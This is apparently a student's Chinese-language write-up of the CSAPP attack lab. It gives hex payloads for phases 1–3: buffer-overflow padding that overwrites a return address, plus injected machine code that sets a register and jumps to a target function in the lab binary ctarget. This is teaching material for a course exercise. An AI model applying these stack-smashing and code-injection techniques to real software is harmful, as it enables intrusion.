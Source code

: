 跟着pdf慢慢来
# phase 1
发现栈大小是0x28，touch1地址是0x004017c0，直接拿字符串怼过去，把地址塞进栈里原来的返回地址
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
c0 17 40 00 00 00 00 00
然后存进ans.txt，再cat ans.txt | ./hex2raw | ./ctarget -q即可
# phase 2
跟着https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md来的
答案：
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00
# phase 3
和phase 2大同小异
48 c7 c7 b0 dc 61 55
68 fa 18 40 00   
c3 
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00